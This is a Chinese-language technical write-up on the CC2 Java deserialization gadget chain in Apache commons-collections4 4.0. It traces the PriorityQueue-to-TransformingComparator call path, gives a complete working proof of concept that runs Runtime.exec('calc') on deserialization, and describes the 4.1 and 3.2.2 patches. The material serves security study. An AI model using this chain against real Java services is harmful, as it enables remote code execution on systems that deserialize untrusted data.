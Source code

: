 # 0x01 Preface

CC链提出时官方有两个`Commons Collections`版本

* commons-collections:commons-collections
* org.apache.commons:commons-collections4

两者的命名空间不冲突，可以共存在同⼀个项⽬中。

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

之前的利用链`CC1、CC3、CC6`在`commons-collections4`均能正常使用，不过方法名可能稍有变动。

CC链实际上就是一条`Serializable#readObject()`到`Transformer#transform()`的调用链

# 0x02 PriorityQueue

CC2中用到的两个类：

* `java.util.PriorityQueue`
* `org.apache.commons.collections4.comparators.TransformingComparator`

```java
public class PriorityQueue<E> extends AbstractQueue<E>
    implements java.io.Serializable {
    private int size = 0;

    private void readObject(java.io.ObjectInputStream s){
            s.defaultReadObject();
            s.readInt();
            queue = new Object[size];
            for (int i = 0; i < size; i++)
                queue[i] = s.readObject();
            heapify();
    }
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
}
```

```java
// TransformingComparator#compare
public int compare(final I obj1, final I obj2) {
    final O value1 = this.transformer.transform(obj1);
    final O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}
```

`PriorityQueue#readObject()` => `heapify()` => `siftDown()` => `siftDownUsingComparator() `=> `comparator.compare()` => `transformer.transform()`

* `heapify`
  `int i = (size >>> 1) - 1`得非负
* `siftDownUsingComparator`
  `half = size >>> 1`得大于上面的i

`PriorityQueue`构造函数不会给size赋初值，需要用反射去赋值

# 0x03 Weave POC

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC2 {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator comparator = new TransformingComparator(chainedTransformer);
        PriorityQueue pq = new PriorityQueue(comparator);
        setFieldValue(pq, "size", 4);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(pq);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

# 0x04 Patch

`org.apache.commons.collections4.comparators.TransformingComparator`
在commons-collections4.0以前是版本没有实现 Serializable接口

官方发布的新版本4.1和3.2.2用于修复CC链
3.2.2中 增加了⼀个⽅法`FunctorUtils#checkUnsafeSerialization`
⽤于检测反序列化是否安全，其会检查常⻅的危险Transformer类，当我们反序列化包含这些对象时就会抛出异常。
若开发者没有设置全局配置 `org.apache.commons.collections.enableUnsafeSerialization=true`
即默认情况下会抛出异常

4.1中 这几个危险的Transformer类不再实现 Serializable 接口，直接不能序列化和反序列化

因此CC2只能在commons-collections4.0上跑通。

